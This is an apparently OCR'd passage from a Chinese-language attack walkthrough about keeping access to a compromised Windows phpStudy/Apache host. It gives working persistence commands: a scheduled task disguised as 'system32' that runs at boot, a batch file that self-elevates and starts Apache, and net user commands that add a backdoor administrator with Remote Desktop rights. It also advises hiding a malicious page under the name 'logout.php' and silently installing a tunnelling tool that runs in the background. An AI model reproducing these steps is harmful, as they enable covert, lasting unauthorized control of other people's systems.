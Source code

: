 > 娱乐完了,不要忘了添加一个定时计划任务,先把`目录`摸索完,确定`apache`里的`httpd.exe`的位置

- ```php
  //安装服务
  "E:\php_study\app\phpstudy_pro\Extensions\Apache2.4.39\bin\httpd.exe" -k install
  //启动服务
  schtasks /create /tn "system32" /tr "C:\Users\24937\Desktop\system32.bat" /sc onstart /f
  ```

  > 手动编写`bat`批处理命令,命令为`system32.bat`,需要和上面的位置对应,可以藏深点

- ```bat
  @echo off
  net session >nul 2>&1
  if %errorLevel% neq 0 (
      powershell -Command "Start-Process cmd -ArgumentList '/c %~s0' -Verb RunAs"
      exit /b
  )
  sc query Apache2.4 | findstr /i "RUNNING" >nul || (sc config Apache2.4 start= auto & start sc start Apache2.4)
  exit
  ```

  > 这样就能实现开机自启动`apache`服务,最后使用命令创建一个用户

- ```
  net user hcak hack /add
  net localgroup administrators hack /add
  net localgroup "Remote Desktop Users" hack /add
  ```

> 最后如果觉得还不够,那就再创建一个`html`

- ![image-20240923232136206](./assets/image-20240923232136206.png)

![image-20240923232213484](./assets/image-20240923232213484.png)

> 最好命名看起来不被怀疑,例如`logout.php`,不仔细看很难发现

> 可以做个内网穿透,下载一个`花生壳`,静默安装,找到`bin`文件夹里的`exe`文件挂后台执行即可(同样的道理,开机自启动)

![image-20240923232543195](./assets/image-20240923232543195.png)

> --------------------------------------------->到此整个故事就结束了<-------------------------------------------------
